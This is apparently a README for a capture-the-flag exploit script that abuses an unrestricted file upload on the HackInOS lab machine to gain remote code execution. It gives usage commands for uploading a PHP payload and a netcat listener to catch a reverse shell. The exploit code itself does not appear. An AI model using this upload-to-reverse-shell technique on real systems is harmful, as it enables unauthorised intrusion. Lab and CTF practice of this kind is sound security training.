

# HackInOS_RCE
Exploit the Unrestricted File Upload to gather Remote Code Execution for CTF HackInOS.

# Usage
`python3 HackInOS_RemoteFileUpload.py <url_of_machine> <file_to_upload> <lhost> <lport>`

If `LHOST` and `LPORT` are specified, prepare a terminal with `netcat` up and running in listening to the <lport> port.
Example:

In one terminal:
```
python3 HackInOS_RemoteFileUpload.py http://localhost:8000 HIOS_RCE.php 10.0.0.105 4444
```
In another terminal:
```
nc -vlp 4444
```
If `LPORT` and `LHOST` are not set, the script will only upload the file and output his location.


# Dependencies
It requires `Python3` and the library `requests`.

# Screenshot
